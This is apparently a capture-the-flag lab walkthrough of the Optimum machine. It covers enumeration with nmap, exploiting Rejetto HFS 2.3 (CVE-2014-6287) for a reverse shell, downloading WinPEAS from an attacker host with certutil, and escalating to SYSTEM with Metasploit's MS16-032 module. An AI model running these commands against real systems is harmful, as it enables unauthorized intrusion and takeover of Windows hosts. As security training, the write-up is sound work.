







# Optimum - Penetration Testing Walkthrough (Extended Markdown Report)

This is the full technical walkthrough for the **Optimum** machine (IP: `10.129.58.232`).  
It documents every phase from enumeration to root access, including vulnerability analysis and exploit methodology.  
All referenced screenshots are stored under `images/imageX.png`.

---

## 🧭 Enumeration

We started with a full TCP port scan to identify available services on the target system:

```bash
nmap -p- -Pn 10.129.58.232 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.58.232 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.58.232 -v --script vuln -oN nmap_vuln.txt
```



The scan revealed **port 80 (HTTP)** open, indicating a running web server — the only entry point available for further exploration.

---

## 🌐 Web Enumeration and Service Identification

We visited the target in a browser:  
👉 `http://10.129.58.232/`

Inspecting the HTML source revealed the service type and version.



The page identified the software as **Rejetto HTTP File Server (HFS) 2.3** — a lightweight Windows-based file-sharing server.

---

## 🧠 Vulnerability Discovery — CVE-2014-6287

We discovered that **HFS 2.3** is vulnerable to **CVE-2014-6287**, a critical **Remote Code Execution (RCE)** vulnerability.

### 🔍 About CVE-2014-6287

This vulnerability stems from improper input sanitization in HFS’s template system.  
Attackers can inject arbitrary commands through specially crafted HTTP requests that abuse HFS’s file path processing logic.  
When executed, the payload triggers a PowerShell command or similar remote execution vector, granting remote shell access.

**Reference Exploit:**  
🔗 [https://github.com/thepedroalves/HFS-2.3-RCE-Exploit](https://github.com/thepedroalves/HFS-2.3-RCE-Exploit)

---

## ⚙️ Exploitation - HFS 2.3 RCE

We cloned the public exploit and executed it to deliver a reverse shell payload:

```bash
git clone https://github.com/thepedroalves/HFS-2.3-RCE-Exploit.git
cd HFS-2.3-RCE-Exploit
python3 exploit.py 10.129.58.232 8080
```

The exploit successfully executed, providing a reverse shell connection to our attacker system.



We confirmed access to the target and retrieved the **user flag** from the desktop.



---

## 🧩 Post-Exploitation Enumeration

We uploaded and executed **WinPEAS** to gather local privilege escalation data:

```powershell
certutil -urlcache -split -f "http://10.10.15.30/winPEAS.exe" winPEAS.exe
.\winPEAS.exe
```

The tool highlighted several system details and user information, including **kostas’s** credentials.



---

## 🚀 Privilege Escalation — MS16-032

We moved to **Metasploit** for systematic privilege escalation discovery using the local exploit suggester:

```bash
run post/multi/recon/local_exploit_suggester
```



### 🔍 About MS16-032

**MS16-032** is a privilege escalation vulnerability that exploits flaws in the **secondary logon service** of Windows.  
It allows a low-privileged user to impersonate higher-privileged tokens (SeImpersonatePrivilege), effectively executing code as **NT AUTHORITY\SYSTEM**.

We executed the Metasploit module to elevate privileges:

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
run
```

The exploit completed successfully, spawning a **SYSTEM-level Meterpreter shell**.



---

## 🏁 Root Access

With elevated privileges, we accessed the Administrator’s desktop and retrieved the **root flag**:

```
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Optimum** machine demonstrates a practical, real-world exploitation chain involving a known RCE vulnerability followed by a local privilege escalation exploit.

**Summary of Attack Path:**
1. **Reconnaissance:** Identified Rejetto HFS 2.3 service.  
2. **Exploitation:** Used CVE-2014-6287 for RCE and gained shell as kostas.  
3. **Privilege Escalation:** Executed MS16-032 to achieve SYSTEM access.  
4. **Root Access:** Retrieved Administrator flag.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Enumeration |
| **Rejetto HFS 2.3 RCE (CVE-2014-6287)** | Gain remote command execution | Exploitation |
| **Python Exploit Script** | Deliver PowerShell reverse shell | Exploitation |
| **WinPEAS** | Privilege escalation enumeration | Post-Exploitation |
| **Metasploit Local Exploit Suggester** | Identify privilege escalation exploits | Privilege Escalation |
| **MS16-032 Exploit** | Escalate privileges to SYSTEM | Privilege Escalation |
| **PowerShell / Certutil** | Transfer enumeration scripts | Post-Exploitation |

---

## 🧱 Attack Chain Diagram

```text
[Enumeration]
   ↓
[Nmap Scan → Identify HFS 2.3]
   ↓
[Exploit CVE-2014-6287 → Remote Shell]
   ↓
[Foothold as kostas]
   ↓
[WinPEAS → Enumerate Privilege Escalation]
   ↓
[MS16-032 Exploit → SYSTEM Access]
   ↓
[Administrator Root Flag Retrieved]
```

---

**User Flag Path:** `C:\Users\kostas\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
